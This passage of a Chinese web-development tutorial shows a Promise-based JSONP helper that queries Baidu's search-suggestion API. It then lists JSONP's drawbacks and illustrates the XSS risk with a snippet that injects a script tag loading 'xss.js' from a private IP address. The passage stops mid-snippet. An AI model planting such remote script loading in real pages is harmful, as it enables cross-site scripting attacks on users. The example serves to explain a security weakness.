         <span class="hljs-built_in">window</span>[cb] = <span class="hljs-function"><span class="hljs-keyword">function</span>(<span class="hljs-params">data</span>) </span>{
            resolve(data);
            <span class="hljs-comment">// &#x5728;&#x8DE8;&#x57DF;&#x62FF;&#x5230;&#x6570;&#x636E;&#x4EE5;&#x540E;&#x5C06; script &#x6807;&#x7B7E;&#x9500;&#x6BC1;</span>
            <span class="hljs-built_in">document</span>.body.removeChild(script);
        };

        <span class="hljs-comment">// &#x62FC;&#x63A5;&#x53D1;&#x9001;&#x8BF7;&#x6C42;&#x7684;&#x53C2;&#x6570;&#x5E76;&#x8D4B;&#x503C;&#x5230; src &#x5C5E;&#x6027;</span>
        script.src = <span class="hljs-string">`<span class="hljs-subst">${url}</span>?<span class="hljs-subst">${arr.join(<span class="hljs-string">&quot;&amp;&quot;</span>)}</span>`</span>;
        <span class="hljs-built_in">document</span>.body.appendChild(script);
    });
}

<span class="hljs-comment">// &#x8C03;&#x7528;&#x65B9;&#x6CD5;&#x8DE8;&#x57DF;&#x8BF7;&#x6C42;&#x767E;&#x5EA6;&#x641C;&#x7D22;&#x7684;&#x63A5;&#x53E3;</span>
json({
    <span class="hljs-attr">url</span>: <span class="hljs-string">&quot;https://sp0.baidu.com/5a1Fazu8AA54nxGko9WTAnF6hhy/su&quot;</span>,
    <span class="hljs-attr">params</span>: {
        <span class="hljs-attr">wd</span>: <span class="hljs-string">&quot;jsonp&quot;</span>
    },
    <span class="hljs-attr">cb</span>: <span class="hljs-string">&quot;show&quot;</span>
}).then(<span class="hljs-function"><span class="hljs-params">data</span> =&gt;</span> {
    <span class="hljs-comment">// &#x6253;&#x5370;&#x8BF7;&#x6C42;&#x56DE;&#x7684;&#x6570;&#x636E;</span>
    <span class="hljs-built_in">console</span>.log(data);
});</code></pre><p>&#x7F3A;&#x70B9;&#xFF1A;</p><ul><li>&#x53EA;&#x80FD;&#x53D1;&#x9001; get &#x8BF7;&#x6C42; &#x4E0D;&#x652F;&#x6301; post&#x3001;put&#x3001;delete&#xFF1B;</li><li>&#x4E0D;&#x5B89;&#x5168;&#xFF0C;&#x5BB9;&#x6613;&#x5F15;&#x53D1; xss &#x653B;&#x51FB;&#xFF0C;&#x522B;&#x4EBA;&#x5728;&#x8FD4;&#x56DE;&#x7684;&#x7ED3;&#x679C;&#x4E2D;&#x8FD4;&#x56DE;&#x4E86;&#x4E0B;&#x9762;&#x4EE3;&#x7801;&#x3002;</li></ul><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="`let script = document.createElement(&apos;script&apos;);
script.src = &quot;http://192.168.0.57:8080/xss.js&quot;;
document.body.appendChild(script);`;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript"><span class="hljs-string">`let script = document.createElement(&apos;script&apos;);
script.src = &quot;http://192.168.0.57:8080/xss.js&quot;;